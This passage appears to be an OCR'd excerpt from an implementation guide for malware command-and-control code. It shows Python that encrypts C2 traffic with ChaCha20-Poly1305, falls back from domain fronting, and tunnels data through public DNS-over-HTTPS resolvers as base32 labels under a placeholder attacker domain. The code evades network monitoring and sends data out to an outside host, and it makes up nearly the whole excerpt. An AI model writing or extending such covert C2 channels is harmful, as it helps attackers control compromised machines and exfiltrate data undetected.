 ```python
                        return self._decrypt_data(response.content)
                except:
                    continue
        
        # Fallback to DNS over HTTPS if domain fronting fails
        return self._dns_over_https_fallback(data)
    
    def _encrypt_data(self, data):
        # Use ChaCha20-Poly1305 for encryption
        from Crypto.Cipher import ChaCha20_Poly1305
        cipher = ChaCha20_Poly1305.new(key=self.key)
        ciphertext, tag = cipher.encrypt_and_digest(data.encode())
        return cipher.nonce + tag + ciphertext
    
    def _decrypt_data(self, data):
        from Crypto.Cipher import ChaCha20_Poly1305
        nonce = data[:12]
        tag = data[12:28]
        ciphertext = data[28:]
        cipher = ChaCha20_Poly1305.new(key=self.key, nonce=nonce)
        plaintext = cipher.decrypt_and_verify(ciphertext, tag)
        return json.loads(plaintext)
```

#### B. DNS over HTTPS Tunneling
**File:** Add to `Core/elite_connection.py`

```python
def _dns_over_https_fallback(self, data):
    """Use DNS queries for C2 when domain fronting fails"""
    import base64
    import struct
    
    # Encode data as DNS queries
    encoded = base64.b32encode(json.dumps(data).encode()).decode().lower()
    
    # Split into DNS labels (max 63 chars each)
    chunks = [encoded[i:i+63] for i in range(0, len(encoded), 63)]
    
    # Use DoH providers
    doh_providers = [
        'https://cloudflare-dns.com/dns-query',
        'https://dns.google/dns-query',
        'https://dns.quad9.net/dns-query'
    ]
    
    for provider in doh_providers:
        try:
            for chunk in chunks:
                # Create DNS query for TXT record
                query_name = f"{chunk}.dns.your-domain.com"
                
                response = requests.get(
                    provider,
                    headers={'accept': 'application/dns-json'},
                    params={'name': query_name, 'type': 'TXT'},
                    timeout=10
                )
                
                if response.status_code == 200:
                    # Extract C2 response from TXT records
                    result = response.json()
                    if 'Answer' in result:
                        for answer in result['Answer']:
```
